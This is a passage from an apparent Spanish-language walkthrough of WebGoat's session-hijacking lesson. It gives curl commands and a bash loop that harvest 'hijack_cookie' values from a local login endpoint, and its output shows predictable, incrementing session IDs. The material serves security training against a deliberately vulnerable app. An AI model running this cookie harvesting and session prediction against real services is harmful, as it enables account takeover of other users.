 Limpiamos el STDOUT de curl para solo obtenga la línea de `Set-Cookie`:

```bash
$ curl -i -s -k -X  'POST' \
	-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
	-H "Cookie: JSESSIONID=$JSESSIONID"  \
	--data-raw $'username=foo&password=bar' \
	'http://localhost:8080/WebGoat/HijackSession/login' \
	2>/dev/null | grep -i '^Set-Cookie:' 

Set-Cookie: hijack_cookie=4745395612611419285-1686438408012; path=/WebGoat; secure
```

Ahora con la magia de chatGPT filtramos la salida para solo obtener el valor de la cookie:

```bash
curl -i -s -k -X  'POST' \
	-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
	-H "Cookie: JSESSIONID=$JSESSIONID"  \
	--data-raw $'username=foo&password=bar' \
	'http://localhost:8080/WebGoat/HijackSession/login' \
	2>/dev/null | grep -i '^Set-Cookie:' | grep -oP '(?<=hijack_cookie=)[^;]+'

4745395612611419285-1686438408012
```

Solo nos queda generar varias peticiones. Para ello, crearemos un `script.sh`:

```bash
#!/bin/bash
for i in {1..10}
do 
	hijack_cookie=$(curl -i -s -k -X  'POST' \
		-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
		-H "Cookie: JSESSIONID=$1"  \
		--data-raw $'username=foo&password=bar' \
		'http://localhost:8080/WebGoat/HijackSession/login' \
		2>/dev/null | grep -i '^Set-Cookie:' | grep -oP '(?<=hijack_cookie=)[^;]+')
	echo $hijack_cookie
done
```

que podemos ejecutar con `./script.sh $JSESSIONID`

```plaintext
4745395612611419329-1686439552783
4745395612611419330-1686439552808
4745395612611419331-1686439552831
4745395612611419333-1686439552857
4745395612611419334-1686439552882
4745395612611419335-1686439552904
4745395612611419337-1686439552931
4745395612611419338-1686439552956
4745395612611419339-1686439552978
4745395612611419340-1686439553000
```
